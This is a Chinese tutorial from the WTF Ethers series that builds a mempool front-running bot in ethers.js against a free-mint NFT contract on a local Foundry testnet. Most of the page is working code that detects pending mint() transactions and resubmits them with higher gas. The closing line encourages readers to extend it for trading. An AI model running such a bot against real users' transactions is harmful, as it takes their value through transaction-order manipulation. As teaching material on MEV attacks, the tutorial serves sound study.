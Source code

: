 ```yaml
---
title: 23. 抢先交易脚本
---
```


# Ethers极简入门: 23. 抢先交易脚本

我最近在重新学`ethers.js`，巩固一下细节，也写一个`WTF Ethers极简入门`，供小白们使用。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy 社群：[Discord](https://discord.wtf.academy)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTFEthers)

---

这一讲，我们将介抢先交易（Front-running，抢跑）的脚本。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利12亿美元](https://dune.com/chorus_one/ethereum-mev-data)。在学习之前，请先阅读[WTF Solidity教程 合约安全S11: 抢先交易](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md)。

![](./img/23-1.png)

## Freemint NFT合约

我们要抢跑的目标合约是一个ERC721标准的NFT合约`Frontrun.sol`，它拥有一个`mint()`函数进行免费铸造。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

我们将上述合约部署在foundry本地测试网，然后监听在`mempool`中的未决交易，筛选出符合标准的交易进行抢跑。

## 抢跑脚本

下面，我们详解一下抢跑脚本`frontrun.js`，这个脚本会监听链上的`mint()`交易，并发送一个gas更高的相同交易，进行抢跑。

1. 创建连接到foundry本地测试网的`provider`对象，用于监听和发送交易。foundry本地测试网默认url：`"http://127.0.0.1:8545"`。
    ```js
    import { ethers, utils } from "ethers";

    // 1. 创建provider
    var url = "http://127.0.0.1:8545";
    const provider = new ethers.providers.WebSocketProvider(url);
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));
    ```

2. 创建一个包含我们感兴趣的`mint()`函数的`interface`对象，用于解码交易。如果你不了解它，可以阅读[WTF Ethers极简教程第20讲：解码交易](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md)。
    ```js
    // 2. 创建interface对象，用于解码交易详情。
    const iface = new utils.Interface([
        "function mint() external",
    ])
    ```

3. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供的，里面有10000 ETH测试币。

    ```js
    // 3. 创建钱包，用于发送抢跑交易
    const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```

4. 我们利用`provider.on`方法监听mempool中的未决交易，当交易出现时，我们会利用交易哈希`txHash`来读取交易详情`tx`，并筛选出调用了`mint()`函数且发送方不是自己钱包地址的交易（如果不筛选，会自己抢跑自己的交易，陷入死循环）。然后，再打印筛选出的交易哈希。

    ```js
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);
    ```
    ![](./img/23-2.png)

5. 打印筛选出的未决交易详情

    ```js
    // 打印原始交易
    console.log("raw transaction")
    console.log(tx);
    ```   
    ![](./img/23-3.png)

6. 打印解码后的交易详情，可以看到该交易调用的是`mint()`函数。 

    ```js
    // 打印交易解码后结果
    let parsedTx = iface.parseTransaction(tx)
    console.log("pending交易详情解码：")
    console.log(parsedTx);
    ```
    ![](./img/23-4.png)

7. 构建抢跑交易`txFrontrun`，原交易的目标地址`to`，发送以太坊数额`value`和发送数据`data`保持不变，然后将`gas`拉高：`maxPriorityFeePerGas` 和 `maxFeePerGas` 改为原先的 1.2 倍，`gasLimit`最高设为原先的 2 倍。然后通过 `sendTransaction()` 将交易发送到链上，完成抢跑！

    ```js
    // 构建抢跑tx
    const txFrontrun = {
        to: tx.to,
        value: tx.value,
        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
        maxFeePerGas: tx.maxFeePerGas * 1.2,
        gasLimit: tx.gasLimit * 2,
        data: tx.data
    }
    // 发送抢跑交易
    var txResponse = await wallet.sendTransaction(txFrontrun)
    console.log(`正在frontrun交易`)
    await txResponse.wait()
    console.log(`frontrun 交易成功`)   
    ```

    ![](./img/23-5.png)

## 总结

这一讲，我们介绍了一个简单的抢先交易脚本。你可以在这个脚本的基础上加入你想要的功能，开启币圈科学家之路！